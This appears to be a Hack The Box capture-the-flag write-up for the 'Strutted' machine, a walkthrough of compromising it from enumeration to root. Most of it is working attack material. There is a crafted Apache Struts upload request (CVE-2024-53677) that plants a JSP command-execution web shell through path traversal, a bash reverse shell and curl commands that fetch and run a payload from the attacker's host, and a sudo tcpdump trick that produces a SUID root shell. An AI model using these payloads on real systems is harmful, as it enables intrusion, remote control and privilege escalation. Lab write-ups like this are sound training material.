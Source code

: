 ```yaml
---
name: Strutted
difficulty: medium
os: linux
platform: htb
date: 2025/09/01
releasedDate: 2005-08-30
userFlag: true
rootFlag: true

img: https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/cb2df0a9511e5634451e3fb6c8ddc509.png
---
```


## Enumeration

We start by enumerating the open tcp ports on the target machine. This can be done using the `nmap` tool:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.59 -oN allPorts
```
```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

We add dns resolution for target machine in `/etc/hosts` file

```
10.10.11.59  strutted.htb
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -sCV -p 22,80 10.10.11.59 -oN targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Strutted\xE2\x84\xA2 - Instant Image Uploads
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

We navigate to the web page and find an image upload feature.

We also see a download button, which allows us to see the source code of the web application. 
We find a file named `tomcat-users.xml` which contains user credentials:

```
admin:skqKY6360z!Y
```

We also find that the website is using Apache Struts. We find a vulnerability in the Struts version being used: `CVE-2024-53677`.

This vulnerability allows for uploading files to arbitrary locations. We have to use the `Upload` and `top.UploadFileName` file parameters.

## User Exploitation

This is the `burpsuite` request used for creating the malicious file:
```
POST /upload.action;jsessionid=663A2A8C0D6AB8FFF4FFB46F0ABF48EF HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------35054823964779281091771702135
Content-Length: 1962
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/
Cookie: JSESSIONID=663A2A8C0D6AB8FFF4FFB46F0ABF48EF
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------35054823964779281091771702135
Content-Disposition: form-data; name="Upload"; filename="image.png"
Content-Type: image/png

PNG

   
IHDR     X   vp lýIDATxìÉ0 PÜJÓg%(@§C|ÞÛÎ3                                                                ; D¾EDgãMJÑ­µ^köÃÖo÷µ¶k4óÃ4E"¢Þî Àå)E|naï¬Á$I²l}Î½fæî	U]SM¹ûiËÒ¨³ú×£ËO^yA|Ì ;º¼$=¦efh(ÌÊw7»wÍ"<¾ªefûë;ß¹n5Øôçu÷¬á³gP êUrAE¨¨´¹FPQÂum}Äru¹¼DÜï!õ5$ 3®¤/÷÷kgw?ýë/ÿ²ýÙqùøcú!Øw}2 ÇN§Óét:ÖïâÏN§j÷ßÇ;ªK(s.±w¨;¥vK(å$í'äx¶!rcìvÐëk¤¦	¬g!FÎ_ëæµäee}]W,/_úr8`YWÍ¤ÌÝ  F¬fSrÛïÇÃ'`!a¿Aét:N§Ó!àø§ÓéÈw7Ò¯üÊaØïe·,1rtG<J2Cpoâu·XJkÈI0¨fE  Öl9öÚ"¤Ýï-\\0Õ9B;RC?»Bnò3òºrYÌ¯÷÷¨_rÀZÈÖbªðPH/ÃÕL²;w[RÒÛÃÁÖ§O§À¿
N§Óét:áON§¾îë8~Ý×éxs#éwl"e4C	´3² âÁR£[ÄÝjS6bvlwrû$#d·\Åað¡Ç8" Q%UMH¸;ü$ ×mû±¬«Åó&"õL

<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";

    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\\n";
                }
                reader.close();
            }
        } else {
            output = "Unknown action.";
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>

-----------------------------35054823964779281091771702135
Content-Disposition: form-data; name="top.UploadFileName"

../../reverse.jsp
-----------------------------35054823964779281091771702135--
```

This way we are creating a JSP web shell at `http://strutted.htb/reverse.jsp`.

We set up the listeners on our machine:
```bash
echo "#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.136/443 0>&1"" > reverse
python3 -m http.server 80
nc -lvnp 443
```

Next, step is to exploit it using this payload. .
```
http://strutted.htb/reverse.jsp?action=cmd&cmd=curl 10.10.14.136/reverse -o /tmp/reverse
http://strutted.htb/reverse.jsp?action=cmd&cmd=chmod +x /tmp/reverse
http://strutted.htb/reverse.jsp?action=cmd&cmd=bash /tmp/reverse
```

We will recieve a reverse shell on our machine running as user `tomcat`:
```bash
whoami
```
```
tomcat
```

We find a diferent password in `tomcat-users.xml` file inside the machine:
```
admin:IT14d6SSP81k
```

We find a directory `/home/james`, so we try to connect as user `james` with passwords we got in`tomcat-users.xml` files:
```bash
su james
```

It wont work.

We try to connect to user `james` via ssh using credentials which failed with `su`:
```bash
sshpass -p "IT14d6SSP81k" ssh james@strutted.htb
```

And it works successfully. 

```bash
whoami
```
```
james
```

## Root Exploitation

We check if user `james`has sudo privileges:
```bash
sudo -l
```
```
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

We check in [gtfobins](https://gtfobins.github.io/gtfobins/tcpdump/) a way to run commands as root using `sudo tcpdump`:
```bash
COMMAND=<command>
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
``` 

We use `cp /bin/bash /tmp/bash; chmod +s /tmp/bash` as command to generate a bash priveged version.

Then we migrate to `root` using the binary we just copied:
```bash
/tmp/bash -p
whoami
```
```
root
```

Finally, we can read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```


## Conclusion

In this write-up, we have demonstrated a complete exploitation path from a web shell to root access on a vulnerable machine. By leveraging a JSP web shell, we were able to gain initial access and escalate privileges through various techniques, including SSH credential reuse and exploiting misconfigured sudo permissions.




